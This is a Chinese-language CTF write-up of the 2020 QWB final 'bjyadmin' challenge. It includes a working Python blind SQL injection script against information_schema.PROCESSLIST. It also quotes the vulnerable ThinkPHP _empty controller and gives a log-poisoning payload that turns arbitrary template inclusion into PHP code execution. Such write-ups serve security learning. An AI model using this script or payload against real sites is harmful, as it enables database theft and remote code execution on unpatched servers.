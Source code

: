 categories:
- 比赛
tags:
- wp
- web
- ctf
title: 2020-QWB-final-bjyadmin
---
# 2020-QWB-final-bjyadmin

## 第一步sql注入

>选手使用攻击机利用靶机中的sql注入漏洞获取bjyadmin框架路径

```
# mysql> select info from PROCESSLIST;
# +------------------------------+
# | info                         |
# +------------------------------+
# | select info from PROCESSLIST |
# +------------------------------+
# 1 row in set (0.00 sec)
```

利用processlist注出字段名，[相关的介绍](https://dev.mysql.com/doc/refman/8.0/en/performance-schema-processlist-table.html)

```python
import requests
import time
ip="192.168.10.110"
#http://101.133.129.243/
def inj(pos,guess):
    # true: real-guess < 0
    # false : guess <= real
    burp0_url = "http://"+ip+"/?id=1'/(if(floor((SELECT(ord(right(left(group_concat(info),{POS}),1)))FROM(information_schema.PROCESSLIST))/{GUESS}),1,0))/'1".format(POS=pos,GUESS=guess)
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
    r=requests.get(burp0_url, headers=burp0_headers,proxies={"http":"http://127.0.0.1:8080"})

    if "Undefined variable: rows in" in r.text:
        return True
    return False
# "http://101.133.129.243:80/?id=1'/(if(floor((SELECT(ord(right(left(group_concat(schema_name),{POS}),1)))FROM(information_schema.schemata))/{GUESS}),1,0))/'1"
# database:2020qwbctf 
# table_name:
result=""
pos=len(result)+1
while True:
    min=32
    max=128
    print(result)
    while True:
        #time.sleep(1)
        
        avr = int((min+max)/2)
        print(avr)
        if not inj(pos,avr):
            if inj(pos,avr+1):
                result+=chr(avr)
                break
            else:
                min=avr
        else:
            max=avr
        if max-min == 1:
            if not inj(pos,min):
                result+=chr(max)
                
            else:
                result+=chr(min)
            break


    
    pos+=1
```



## bjyadmin

题目提供的附件和

https://github.com/baijunyao/thinkphp-bjyadmin

一摸一样

![image2362](https://raw.githubusercontent.com/Explorersss/photo/master/20200921120236.png)

挨个看过去发现有一个容易令人忽略的漏洞（sxgg一眼看出来）



```php
<?php
namespace Home\Controller;
use Common\Controller\HomeBaseController;
/**
 * Vue示例
 */
class VueController extends HomeBaseController{

    /**
     * 拦截空方法 自动加载html
     * @param  string $methed_name 空方法
     */
    public function _empty($methed_name){
        $this->display($methed_name);
        exit(0);
    }

    /**
     * 配合thinkphp分页示例
     */
    public function page(){
        // 获取总条数
        $count=M('Province_city_area')->count();
        // 每页多少条数据
        $limit=200;
        $page=new \Org\Nx\Page($count,$limit);
        $data=M('Province_city_area')
            ->limit($page->firstRow.','.$page->listRows)
            ->select();
        echo json_encode($data);
    }

}
```



># ThinkPHP Action中的_empty方法
>
>_empty方法即空操作，当找不到请求的方法时，默认执行该方法，利用这个机制，我们可以实现错误页面和一些URL的优化。
>
>```
>public function _empty($name)
>{
>    echo $name;
>}
>```
>
>参数name,即请求的方法名。如http://localhost/waimai/index.php/Index/sdfewsdf,不存在sdfewsdf方法时，会调用_empty方法，显示sdfewsdf.



当我们调用一个不存在的action时，它会`display ($method) ` ，这将会造成任意模板调用

我们利用`index.php?m=Home&c=Vue&a=evil_path`来调用任意模板，我们可以利用日志文件作为模板文件从而RCE



最后的payload:

```
index.php/Home.php?m=Home&c=Vue&a=Runtime/Logs/User/20_09_17.log
index.php/Home/Vue/web_page&content=<?php/**/phpinfo();
```

